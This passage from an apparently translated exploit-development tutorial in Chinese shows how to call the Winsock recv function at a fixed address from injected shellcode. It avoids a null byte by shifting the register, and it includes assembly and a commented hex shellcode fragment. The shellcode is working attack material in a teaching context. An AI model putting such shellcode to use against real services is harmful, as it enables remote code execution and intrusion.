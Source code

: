 ## 调用第一接收函数

最后，我们现在需要在`0x0040252C`处调用`<JMP.&WS2_32.recv>`函数。

![](img/8324803d70446cafe0f31f0d88daa09f.png)

我们可以简单地将该地址形成堆栈，但是我们可以看到一个问题，位置是从`\x00`开始的。正如@rastating 建议的那样，我们可以像下面这样绕过空字节:

```
**### 1st <JMP.&WS2_32.recv> (ASM)**MOV EBX, 0x40252C11     **; Use this address instead of 0x0040252C**
SHR EBX, 8              **; Shift EAX to the right by 8 bits = 1 byte**
CALL EBX                **; Call EAX**
```

![](img/3ba262f9f153a1ac8b04d0021373d66f.png)

```
**### 1st <JMP.&WS2_32.recv> (Shellcode Cont'd)**\x54                  # PUSH ESP
\x58                  # POP EAX
\x66\x05\x88\x01      # ADD AX, 0x188 
\xFF\x30              # PUSH [EAX]
\x5E                  # POP ESI
\x83\xEC\x74          # SUB ESP, 0x74
\x33\xDB              # XOR EBX, EBX
\x53                  # PUSH EBX
\x80\xC7\x02          # ADD BH, 0x2
\x53                  # PUSH EBX\x54                  # PUSH ESP
\x5B                  # POP EBX
\x83\xC3\x78          # ADD EBX, 0x78
\x53                  # PUSH EBX
\x56                  # PUSH ESI
**\xBB\x11\x2C\x25\x40  # MOV EBX, 0x40252C11
\xC1\xEB\x08          # SHR EBX, 8 
\xFF\xD3              # CALL EBX   ** 
```
